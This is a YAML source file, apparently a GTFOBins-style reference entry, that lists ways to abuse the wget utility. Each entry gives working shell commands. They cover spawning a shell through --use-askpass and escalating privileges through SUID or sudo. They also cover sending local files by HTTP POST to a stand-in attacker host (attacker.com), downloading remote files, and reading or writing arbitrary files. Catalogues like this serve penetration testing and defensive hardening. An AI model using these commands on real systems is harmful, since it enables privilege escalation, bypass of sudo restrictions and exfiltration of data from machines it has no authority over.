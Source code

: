 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        chmod +x $TF
        echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
        wget --use-askpass=$TF 0
  file-upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Use `--post-data` to send hard-coded data.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        wget --post-file=$LFILE $URL
  file-read:
    - description: The file to be read is treated as a list of URLs, one per line, which are actually fetched by `wget`. The content appears, somewhat modified, as error messages, thus this is not suitable to read arbitrary binary data.
      code: |
        LFILE=file_to_read
        wget -i $LFILE
  file-write:
    - description: The data to be written is treated as a list of URLs, one per line, which are actually fetched by `wget`. The data is written, somewhat modified, as error messages, thus this is not suitable to write arbitrary binary data.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA > $TF
        wget -i $TF -o $LFILE
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        wget $URL -O $LFILE
  suid:
    - code: |
        TF=$(mktemp)
        chmod +x $TF
        echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
        ./wget --use-askpass=$TF 0
  sudo:
    - code: |
        TF=$(mktemp)
        chmod +x $TF
        echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
        sudo wget --use-askpass=$TF 0
---
```

